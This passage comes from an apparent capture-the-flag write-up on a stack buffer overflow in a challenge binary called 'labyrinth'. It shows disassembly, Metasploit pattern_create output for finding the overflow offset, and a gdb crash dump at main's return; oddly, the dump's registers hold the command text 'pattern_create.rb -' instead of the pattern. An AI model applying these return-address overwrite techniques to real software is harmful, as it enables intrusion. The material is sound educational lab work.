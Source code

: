 ```
│       │   0x004012cf      488d3db20f00.  lea rdi, str._nError_opening_flag.txt__please_contact_an_Administrator._n_n ; 0x402288 ; "\nError opening flag.txt, please contact an Administrator.\n\n" ; const char *s                    
<...SNIP...>
```

We can see a victory text at address `0x0040129c`. A little further down we can see actions to open and print the flag.txt. If we can return tho this address, we might be able to produce a victory screen. Firstly, to determine the offset of the overflow:

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300               
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

running in gdb:
```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7d14a37 (<write+23>:        cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7fffffffbc20 --> 0x6d31333b315b1b0a 
RDI: 0x7fffffffbb00 --> 0x7ffff7c620d0 (<funlockfile>:  endbr64)
RBP: 0x5f6e726574746170 ('pattern_')
RSP: 0x7fffffffdd78 ("create.rb -")
RIP: 0x401602 (<main+509>:      ret)
R8 : 0x23 ('#')
R9 : 0x7ffff7d7cd70 (mov    r10,QWORD PTR [rsi-0x1b])
R10: 0x20554f59205d2d5b ('[-] YOU ')
R11: 0x246 
R12: 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:  push   rbp)
R14: 0x0 
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>: call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>: mov    eax,0x0
   0x401601 <main+508>: leave
=> 0x401602 <main+509>: ret
   0x401603:    cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:    nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:  push   r15
   0x401612 <__libc_csu_init+2>:        lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd78 ("create.rb -")
0008| 0x7fffffffdd80 --> 0x2d2062 ('b -')
0016| 0x7fffffffdd88 --> 0x401405 (<main>:      push   rbp)
0024| 0x7fffffffdd90 --> 0x100000000 
0032| 0x7fffffffdd98 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")
0040| 0x7fffffffdda0 --> 0x0 
0048| 0x7fffffffdda8 --> 0x78a85a85f5d4e10b 
0056| 0x7fffffffddb0 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```